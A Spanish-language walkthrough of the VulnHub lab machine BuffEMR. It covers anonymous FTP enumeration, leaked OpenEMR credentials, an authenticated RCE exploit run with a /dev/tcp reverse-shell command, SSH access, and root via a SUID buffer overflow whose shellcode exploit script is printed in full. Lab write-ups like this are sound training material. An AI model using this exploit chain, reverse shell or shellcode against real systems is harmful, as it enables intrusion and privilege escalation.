


Resolución de la máquina BuffEMR de la plataforma de VulnHub
Iniciamos escaneando los puertos de la máquina con nmap
❯ nmap 192.168.100.47
Nmap scan report for 192.168.100.47
PORT STATE SERVICE
21/tcp open ftp
22/tcp open ssh
80/tcp open http
Al entrar por ftp podemos ver el directorio share y dentro otro llamado openemr
❯ ftp 192.168.100.47
Connected to 192.168.100.47.
220 (vsFTPd 3.0.3)
Name (192.168.100.47:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x 3 0 0 4096 Jun 21 2021 share
226 Directory send OK.
ftp> cd share
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r-- 1 0 0 20 Jun 21 2021 README
drwxr-xr-x 31 0 0 4096 Jun 21 2021 openemr
226 Directory send OK.
ftp>
Hay demasiados archivos en carpetas para revisar uno por uno, con wget lo descargamos todo
❯ wget -r ftp://192.168.100.47/share/openemr &>/dev/null
Ya que la carpeta se llama openemr podemos pensar que el directorio existe en la web, es un login

Podemos buscar credenciales de un usuario por ejemplo admin y encontramos Monster123
192.168.100.47/share/openemr ❯ grep -r ^admin:
tests/test.accounts:admin:Monster123

En el apartado about podemos ver la versión que es la 5.0.1.3
Buscando exploits podemos encontrar uno para ejecutar comandos
❯ searchsploit openemr 5.0.1.3
-------------------------------------------------------------------------------- -------------------------
Exploit Title | Path
-------------------------------------------------------------------------------- -------------------------
OpenEMR 5.0.1.3 - 'manage_site_files' Remote Code Execution (Authenticated) | php/webapps/49998.py
OpenEMR 5.0.1.3 - 'manage_site_files' Remote Code Execution (Authenticated) (2) | php/webapps/50122.rb
OpenEMR 5.0.1.3 - (Authenticated) Arbitrary File Actions | linux/webapps/45202.txt
OpenEMR 5.0.1.3 - Authentication Bypass | php/webapps/50017.py
OpenEMR 5.0.1.3 - Remote Code Execution (Authenticated) | php/webapps/45161.py
-------------------------------------------------------------------------------- -------------------------
Lo copiamos y lo ejecutamos con los argumentos que nos pide para hacer una revshell
❯ searchsploit -m 45161.py
Exploit: OpenEMR 5.0.1.3 - Remote Code Execution (Authenticated)
URL: https://www.exploit-db.com/exploits/45161
Path: /usr/share/exploitdb/exploits/php/webapps/45161.py
File Type: ASCII text
Copied to: /root/45161.py
❯ python 45161.py
usage: 45161.py [-h] [-u USER] [-p PASSWORD] [-c CMD] host
45161.py: error: too few arguments
❯ python 45161.py -u admin -p Monster123 -c "bash -i >& /dev/tcp/192.168.100.41/443 0>&1" http://192.168.100.47/openemr
.---. ,---. ,---. .-. .-.,---. ,---.
/ .-. ) | .-.\ | .-' | \| || .-' |\ /|| .-.\
| | |(_)| |-' )| `-. | | || `-. |(\ / || `-'/
| | | | | |--' | .-' | |\ || .-' (_)\/ || (
\ `-' / | | | `--.| | |)|| `--.| \ / || |\ \
)---' /( /( __.'/( (_)/( __.'| |\/| ||_| \)\
(_) (__) (__) (__) (__) '-' '-' (__)
={ P R O J E C T I N S E C U R I T Y }=
Twitter : @Insecurity
Site : insecurity.sh
[$] Authenticating with admin:Monster123
[$] Injecting payload
[$] Payload executed
Ahora en el listener de netcat recibimos la shell como www-data
❯ sudo netcat -lvnp 443
Listening on 0.0.0.0 443
Connection received on 192.168.100.47
www-data@buffemr:~/html/openemr/interface/main$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@buffemr:~/html/openemr/interface/main$ hostname -I
192.168.100.47
www-data@buffemr:~/html/openemr/interface/main$
Podemos ver un archivo zip, ya que en /var no podemos escribir lo movemos a /dev/shm
www-data@buffemr:/var$ ls -l user.zip
-rw-r--r-- 1 root root 309 Jun 21 2021 user.zip
www-data@buffemr:/var$ cp user.zip /dev/shm
www-data@buffemr:/var$
El archivo al intentar descomprimirlo nos pide una contraseña
www-data@buffemr:/dev/shm$ unzip user.zip
Archive: user.zip
[user.zip] user.lst password:
En un archivo de lo que descargamos de ftp podemos encontrar la contraseña
192.168.100.47/share/openemr/sql ❯ cat keys.sql
CREATE TABLE ENCKEY(id INT, name VARCHAR(20), enckey VARCHAR(50));
INSERT into ENCKEY (id, name, enckey) VALUES (1, "pdfkey", "c2FuM25jcnlwdDNkCg==");
Ahora con la contraseña lo descomprimimos, tiene un archivo con credenciales ssh
www-data@buffemr:/dev/shm$ unzip user.zip
Archive: user.zip
[user.zip] user.lst password: c2FuM25jcnlwdDNkCg==
inflating: user.lst
www-data@buffemr:/dev/shm$ cat user.lst
This file contain senstive information, therefore, should be always encrypted at rest.
buffemr - Iamgr00t
****** Only I can SSH in ************
www-data@buffemr:/dev/shm$
Nos conectamos por ssh y conseguimos la primera flag
❯ ssh buffemr@192.168.100.47
buffemr@192.168.100.47's password: Iamgr00t
buffemr@buffemr:~$ whoami
buffemr
buffemr@buffemr:~$ hostname -I
192.168.100.47
buffemr@buffemr:~$ cat user_flag.txt
.-. )) wWw \\\ /// wWw \\\ ///()_()
c(O_O)c (o0)-. (O)_((O)(O)) (O)_((O) (O))(O o)
,'.---.`, | (_))/ __)| \ || / __)| \ / | |^_\
/ /|_|_|\ \| .-'/ ( ||\\|| / ( ||\\//|| |(_))
| \_____/ ||( ( _) || \ | ( _) || \/ || | /
'. `---' .` \) \ \_ || || \ \_ || || )|\\
`-...-' ( \__)(_/ \_) \__)(_/ \_)(/ \)
wWw wWw oo_ wWw ()_() c c .-. \\\ /// )) ()_() .-. \\\ ///wW Ww oo_ wWw _
(O) (O) / _)-< (O)_(O o) (OO) c(O_O)c ((O) (O))(o0)-.(O o) c(O_O)c ((O) (O))(O)(O)/ _)-< (O)_/||_
/ ) ( \ \__ `. / __)|^_\ ,'.--.) ,'.---.`, | \ / | | (_))|^_\ ,'.---.`, | \ / | (..) \__ `. / __)/o_)
/ / \ \ `. | / ( |(_)) / //_|_\/ /|_|_|\ \||\\//|| | .-' |(_))/ /|_|_|\ \||\\//|| || `. | / ( / |(\
| \____/ | _| |( _) | / | \___ | \_____/ ||| \/ || |( | / | \_____/ ||| \/ || _||_ _| |( _) | | ))
'. `--' .`,-' | \ \_ )|\\ '. ) '. `---' .`|| || \) )|\\ '. `---' .`|| || (_/\_),-' | \ \_ | |//
`-..-' (_..--' \__)(/ \) `-.' `-...-' (_/ \_) ( (/ \) `-...-' (_/ \_) (_..--' \__)\__/
COnGRATS !! lETs get ROOT now ....!!
buffemr@buffemr:~$
Buscando archivos suid encontramos uno en /opt llamado dontexecute
buffemr@buffemr:~$ find / -perm -4000 2>/dev/null | grep -vE "snap|lib"
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/traceroute6.iputils
/usr/bin/arping
/usr/bin/chsh
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/sudo
/usr/sbin/pppd
/bin/fusermount
/bin/mount
/bin/su
/bin/ping
/bin/umount
/opt/dontexecute
buffemr@buffemr:~$
El archivo pertenece a root, como nos dice que no lo ejecutemos... lo ejecutamos
buffemr@buffemr:/opt$ ls -l
-rwsrwxr-x 1 root root 7700 Jun 23 2021 dontexecute
buffemr@buffemr:/opt$ ./dontexecute
Usage: ./dontexecute argument
buffemr@buffemr:/opt$
Nos pide un argumento, al pasarlo no nos reporta nada, pero con 1000 A segmentation fault
buffemr@buffemr:/opt$ ./dontexecute test
buffemr@buffemr:/opt$ ./dontexecute $(python3 -c 'print("A"*1000)')
Segmentation fault (core dumped)
buffemr@buffemr:/opt$
Lo pasamos por gdb para conseguir el offset que es de 512 bytes
❯ gdb -q ./dontexecute
Reading symbols from ./dontexecute...
(No debugging symbols found in ./dontexecute)
gdb-peda$ pattern_create 1000 pattern
Writing pattern of 1000 chars to filename "pattern"
gdb-peda$ run $(cat pattern)
Starting program: /root/dontexecute $(cat pattern)
Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0xffffd17c ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA"...)
EBX: 0x37734168 ('hAs7')
ECX: 0xffffda20 ("ZA$x")
EDX: 0xffffd560 ("ZA$x")
ESI: 0xf7d97000 --> 0x1e4d6c
EDI: 0xf7d97000 --> 0x1e4d6c
EBP: 0x414d7341 ('AsMA')
ESP: 0xffffd380 ("8AsNAsjAs9AsOAskAsPAslAsQAsmAsRAsoAsSAspAsTAsqAsUAsrAsVAstAsWAsuAsXAsvAsYAswAsZAsxAsyAszAB%ABsABBAB$ABnABCAB-AB(ABDAB;AB)ABEABaAB0ABFABbAB1ABGABcAB2ABHABdAB3ABIABeAB4ABJABfAB5ABKABgAB6ABLABhAB7ABMABiA"...)
EIP: 0x73416973 ('siAs')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x73416973
[------------------------------------stack-------------------------------------]
0000| 0xffffd380 ("8AsNAsjAs9AsOAskAsPAslAsQAsmAsRAsoAsSAspAsTAsqAsUAsrAsVAstAsWAsuAsXAsvAsYAswAsZAsxAsyAszAB%ABsABBAB$ABnABCAB-AB(ABDAB;AB)ABEABaAB0ABFABbAB1ABGABcAB2ABHABdAB3ABIABeAB4ABJABfAB5ABKABgAB6ABLABhAB7ABMABiA"...)
0004| 0xffffd384 ("AsjAs9AsOAskAsPAslAsQAsmAsRAsoAsSAspAsTAsqAsUAsrAsVAstAsWAsuAsXAsvAsYAswAsZAsxAsyAszAB%ABsABBAB$ABnABCAB-AB(ABDAB;AB)ABEABaAB0ABFABbAB1ABGABcAB2ABHABdAB3ABIABeAB4ABJABfAB5ABKABgAB6ABLABhAB7ABMABiAB8AB"...)
0008| 0xffffd388 ("s9AsOAskAsPAslAsQAsmAsRAsoAsSAspAsTAsqAsUAsrAsVAstAsWAsuAsXAsvAsYAswAsZAsxAsyAszAB%ABsABBAB$ABnABCAB-AB(ABDAB;AB)ABEABaAB0ABFABbAB1ABGABcAB2ABHABdAB3ABIABeAB4ABJABfAB5ABKABgAB6ABLABhAB7ABMABiAB8ABNABj"...)
0012| 0xffffd38c ("OAskAsPAslAsQAsmAsRAsoAsSAspAsTAsqAsUAsrAsVAstAsWAsuAsXAsvAsYAswAsZAsxAsyAszAB%ABsABBAB$ABnABCAB-AB(ABDAB;AB)ABEABaAB0ABFABbAB1ABGABcAB2ABHABdAB3ABIABeAB4ABJABfAB5ABKABgAB6ABLABhAB7ABMABiAB8ABNABjAB9A"...)
0016| 0xffffd390 ("AsPAslAsQAsmAsRAsoAsSAspAsTAsqAsUAsrAsVAstAsWAsuAsXAsvAsYAswAsZAsxAsyAszAB%ABsABBAB$ABnABCAB-AB(ABDAB;AB)ABEABaAB0ABFABbAB1ABGABcAB2ABHABdAB3ABIABeAB4ABJABfAB5ABKABgAB6ABLABhAB7ABMABiAB8ABNABjAB9ABOAB"...)
0020| 0xffffd394 ("slAsQAsmAsRAsoAsSAspAsTAsqAsUAsrAsVAstAsWAsuAsXAsvAsYAswAsZAsxAsyAszAB%ABsABBAB$ABnABCAB-AB(ABDAB;AB)ABEABaAB0ABFABbAB1ABGABcAB2ABHABdAB3ABIABeAB4ABJABfAB5ABKABgAB6ABLABhAB7ABMABiAB8ABNABjAB9ABOABkABP"...)
0024| 0xffffd398 ("QAsmAsRAsoAsSAspAsTAsqAsUAsrAsVAstAsWAsuAsXAsvAsYAswAsZAsxAsyAszAB%ABsABBAB$ABnABCAB-AB(ABDAB;AB)ABEABaAB0ABFABbAB1ABGABcAB2ABHABdAB3ABIABeAB4ABJABfAB5ABKABgAB6ABLABhAB7ABMABiAB8ABNABjAB9ABOABkABPABlA"...)
0028| 0xffffd39c ("AsRAsoAsSAspAsTAsqAsUAsrAsVAstAsWAsuAsXAsvAsYAswAsZAsxAsyAszAB%ABsABBAB$ABnABCAB-AB(ABDAB;AB)ABEABaAB0ABFABbAB1ABGABcAB2ABHABdAB3ABIABeAB4ABJABfAB5ABKABgAB6ABLABhAB7ABMABiAB8ABNABjAB9ABOABkABPABlABQAB"...)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x73416973 in ?? ()
gdb-peda$ pattern_offset 0x73416973
1933666675 found at offset: 512
gdb-peda$
Para el exploit empezamos definiendo un shellcode en este caso que ejecute bash -p
shellcode = b"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"
Ahora la cantidad de A necesarias, serian los 512 del offset menos el tamaño del shellcode
offset = b"A" * (512 - len(shellcode))
Finalmente printeamos las A y el shellcode
print(offset + shellcode)
El script final para explotar el binario quedaria algo asi
shellcode = b"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"
offset = b"A" * (512 - len(shellcode))
print(offset + shellcode)
Pasamos el script a la maquina y ejecutamos el binario con el exploit como argumento
buffemr@buffemr:/opt$ cat exploit.py
shellcode = b"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"
offset = b"A" * (512 - len(shellcode))
print(offset + shellcode)
buffemr@buffemr:/opt$ ./dontexecute $(python exploit.py)
bash-4.4#
El resultado es una bash como root, ahora simplemente leemos la flag privilegiada
bash-4.4# whoami
root
bash-4.4# hostname -I
192.168.100.47
bash-4.4# cat /root/Root_flag.txt
________ __ __ ____ _____ ___
`MMMMMMMb. 69MM69MM 6MMMMb 69M`MM `MM
MM `Mb 6M' 6M' ` 8P Y8 6M' `MM MM
MM MM ___ ___ _MM__MM______ ___ __ 6M Mb ____ ___ ____ ___ __ _MM__ MM _____ ____ _ ___ ____ ____MM
MM .M9 `MM MM MMMMMMMM6MMMMb `MM 6MM MM MM `MM( )M' 6MMMMb `MM 6MM MMMMM MM 6MMMMMb `MM( ,M. )M' 6MMMMb 6MMMMMM
MMMMMMM( MM MM MM MM6M' `Mb MM69 " MM MM `Mb d' 6M' `Mb MM69 " MM MM 6M' `Mb `Mb dMb d' 6M' `Mb 6M' `MM
MM `Mb MM MM MM MMMM MM MM' MM MM YM. ,P MM MM MM' MM MM MM MM YM. ,PYM. ,P MM MM MM MM
MM MM MM MM MM MMMMMMMMMM MM MM MM MM M MMMMMMMM MM MM MM MM MM `Mb d'`Mb d' MMMMMMMM MM MM
MM MM MM MM MM MMMM MM YM M9 `Mbd' MM MM MM MM MM MM YM,P YM,P MM MM MM
MM .M9 YM. MM MM MMYM d9 MM 8b d8 YMP YM d9 MM MM MM YM. ,M9 `MM' `MM' YM d9 YM. ,MM
_MMMMMMM9' YMMM9MM__MM__MM_YMMMM9 _MM_ YMMMM9 M YMMMM9 _MM_ _MM_ _MM_ YMMMMM9 YP YP YMMMM9 YMMMMMM_
________ ___ 8 8
`MMMMMMMb. `MM (M) (M)
MM `Mb / MM (M) (M)
MM MM _____ _____ /M ____ ____MM (M) (M)
MM MM 6MMMMMb 6MMMMMb /MMMMM 6MMMMb 6MMMMMM M M
MM .M9 6M' `Mb 6M' `Mb MM 6M' `Mb 6M' `MM M M
MMMMMMM9' MM MM MM MM MM MM MM MM MM M M
MM \M\ MM MM MM MM MM MMMMMMMM MM MM 8 8
MM \M\ MM MM MM MM MM MM MM MM
MM \M\ YM. ,M9 YM. ,M9 YM. ,YM d9 YM. ,MM 68b 68b
_MM_ \M\_YMMMMM9 YMMMMM9 YMMM9 YMMMM9 YMMMMMM_ Y89 Y89
COngratulations !!! Tweet me at @san3ncrypt3d !
bash-4.4#
Aunque realmente esperaba un bof mas complicado ya que la maquina se llama buffemr, debo decir que en general me ha parecido una maquina bastante buena ;)